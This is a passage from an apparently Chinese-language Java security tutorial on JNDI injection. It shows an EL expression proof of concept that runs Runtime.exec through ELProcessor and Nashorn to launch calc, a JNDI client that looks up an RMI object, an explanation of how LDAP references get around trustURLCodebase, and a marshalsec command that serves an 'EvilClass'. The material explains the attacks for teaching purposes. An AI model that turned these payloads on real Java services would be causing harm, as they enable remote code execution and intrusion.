 服务端2

```java
import javax.el.ELProcessor;

public class Test {
    public static void main(String[] args) {
        String poc = "''.getClass().forName('javax.script.ScriptEngineManager')" +
                ".newInstance().getEngineByName('nashorn')" +
                ".eval(\"s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
//        String poc = "''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass())" +
//                ".invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime')" +
//                ".invoke(null),'calc.exe')}";
//        String poc = "''.getClass().forName('javax.script.ScriptEngineManager')" +
//                ".newInstance().getEngineByName('JavaScript')" +
//                ".eval(\"java.lang.Runtime.getRuntime().exec('calc')\")";
        new ELProcessor().eval(poc);
    }
}
```

客户端：

```java
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://localhost:6666/Object";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```



## LDAP

### 低版本

我们可以通过`LDAP`服务来绕过`URLCodebase`实现远程加载，`LDAP`服务也能返回`JNDI Reference`对象，利用过程与`jndi` + `RMI Reference`基本一致，不同的是，`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`jndi Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。

可以使用`marshalsec`开启`LDAP`服务

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#EvilClass
```
